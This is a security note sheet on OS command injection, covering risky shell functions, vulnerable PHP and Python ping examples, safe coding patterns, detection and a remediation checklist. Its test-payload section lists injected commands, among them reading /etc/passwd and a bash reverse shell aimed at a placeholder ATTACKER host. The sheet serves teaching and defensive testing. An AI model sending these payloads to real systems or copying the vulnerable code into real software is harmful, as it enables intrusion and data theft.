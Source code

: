 # Command Injection Notes

**What it is**  
Command injection occurs when an application builds and executes OS/shell commands using untrusted input, allowing an attacker to run arbitrary commands on the host.

---

## Key Indicators
- App calls shell functions: `system`, `exec`, `shell_exec`, backticks, `popen`, `os.system`, `Runtime.exec`, `child_process.exec`, etc.  
- Features that call OS tools (ping, convert, ffmpeg, imagemagick, zip, etc.).  
- Input directly concatenated into command strings.

---

## Impact
- Remote code execution (RCE) as the service user.  
- Data theft, privilege escalation, persistence, lateral movement, pivoting.

---

## Example (Vulnerable)
```php
// PHP (vulnerable)
$ip = $_GET['ip'];
$output = shell_exec("ping -c 1 " . $ip);
```

```python
# Python (vulnerable)
os.system("ping -c 1 " + host)
```

---

## Quick Safe Patterns
- **Avoid shell**: use native libraries (network, file, image libs).  
- **Use argument arrays** (no shell parsing):
  - Python: `subprocess.run(['ping','-c','1', host])` (no `shell=True`)  
  - Node: `spawn('ls', ['-l', path])`  
- **Whitelist input** (best): only allow strict formats (e.g., IPv4 regex).  
- **Run least privilege**, sandbox, containerize, monitor.

---

## Input Validation Rules
- Prefer **whitelist** over blacklist.  
- If validating strings: require strict patterns (IP, filename pattern).  
- If unavoidable, use proper escaping and argument arrays — escaping is fragile.

---

## Test Payloads (AUTHORIZED TESTING ONLY)
- `; whoami`
- `&& id`
- `| cat /etc/passwd`
- `` `id` ``
- Blind/time-based: `; sleep 10` (detect delay)
- Danger: reverse shell `; bash -i >& /dev/tcp/ATTACKER/4444 0>&1` (lab-only)

---

## Detection / Logging
- Unexpected command args in logs.  
- Outbound connections from web process.  
- Long response times (time-based payloads).  
- New shells/processes spawned by web user.

---

## Short Checklist
- [ ] Remove/replace shell calls with native APIs.  
- [ ] Use argument arrays (no shell=True).  
- [ ] Implement strict whitelists for inputs.  
- [ ] Run services with minimal privileges.  
- [ ] Log command execution and alert on anomalies.  
- [ ] Add CI SAST scans and runtime monitoring.

---

## References / Further Reading
- OWASP Command Injection Cheat Sheet  
- Language docs: Python `subprocess`, Node `child_process`, PHP process functions
